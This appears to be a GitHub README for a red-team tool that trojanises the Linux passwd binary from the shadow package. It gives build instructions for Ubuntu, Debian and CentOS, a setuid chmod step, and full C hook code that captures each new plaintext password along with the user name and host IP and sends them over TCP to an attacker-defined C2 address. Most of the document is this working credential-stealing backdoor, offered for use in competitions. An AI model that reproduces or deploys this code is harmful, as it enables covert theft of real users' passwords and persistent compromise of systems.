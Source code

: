 # Retriever Passwd Shim

#### What is this
This is a basic Linux binary shim on the passwd binary from the shadow package. This will grab new passwords while they are still plaintext in the binary and remotely send it back to a defined C2.

#### What does it work on? (Tested)

Ubuntu - 18.04, 20.04 <br />Centos - 8 <br />Debian - 11 <br />  

#### What is this intended for 
This is intended for Red Teaming in a Competition environment.


## Installation Instructions
#### Ubuntu - 18.04 / 20.04
1. `clone shadow git`
2. `run ./generate.sh`
6. `sudo chmod 4755 passwd`

#### Debian - 11
1. `clone shadow git`
2. `run ./generate.sh`
6. `sudo chmod 4755 passwd`

#### CentOS - 8
1. `clone shadow git`
2. `yum deplist passwd | awk '/provider:/ {print $2}' | sort -u | xargs yum -y install`
3. `yum install -y autoconf gettext-devel automake`
4. `dnf group install "Development Tools"`
5. `run ./autogen.sh --without-selinux`
6. `Add Hook (See Hooking passwd.c)`
7. `sudo make all`
6. `sudo chmod 4755 passwd`

#### Troubleshooting
1. Try "make clean" if you are not getting the changed code
2. Building from apt-source kinda sucks don't do it if you don't have to


## Hooking the passwd.c file

#### At the Top
Imports needed 

	#include <sys/socket.h>
	#include <arpa/inet.h> 
	#include <sys/ioctl.h>
	#include <netinet/in.h>
	#include <net/if.h>
	#include <unistd.h> 
	#include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. Make sure to replace the text "INT_HERE" in the 17th line with the actual interface being used by the computer.

	int writetofile (char *password){

	    /* Get UID */
	    uid_t uid = geteuid();
	    struct passwd * pw = getpwuid(uid);

	    /* Get IP Address */
	    int fd;
	    struct ifreq ifr;
	    fd = socket(AF_INET, SOCK_DGRAM, 0);

	    /* I want to get an IPv4 IP address */
	    ifr.ifr_addr.sa_family = AF_INET;

	    /* I want IP address attached to set interface */
	    strncpy(ifr.ifr_name, INT_HERE, IFNAMSIZ-1);
	    ioctl(fd, SIOCGIFADDR, &ifr);
	    close(fd);

	    /* display result */
	    char buffer[256];
	    char * ip;
	    ip = inet_ntoa(((struct sockaddr_in *)&ifr.ifr_addr)->sin_addr);
	    int j = snprintf(buffer, 256, "%s:%s:%s\n", name, password, ip);

	    /* Make Socket */
	    int sock = 0, valread;
	    struct sockaddr_in serv_addr;

	    /* Sock creation Pt 2*/
	    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
		return -1;
	    }

	    /* Socket Options */
	    serv_addr.sin_family = AF_INET;
	    serv_addr.sin_port = htons(PORT);

	    /* Timeout settings */
	    struct timeval timeout;
	    timeout.tv_sec = 3;
	    timeout.tv_usec = 0;

	    if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
		return -1;
	    }
	    if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
		// pass

	    /* set IP and set buffer */
	    }
	    if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
		return -1;
	    }
	    if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
		return -1;
	    }

	    /* Send Message */
	    send(sock , buffer , strlen(buffer) , 0 ); 

	    return 0;

	}
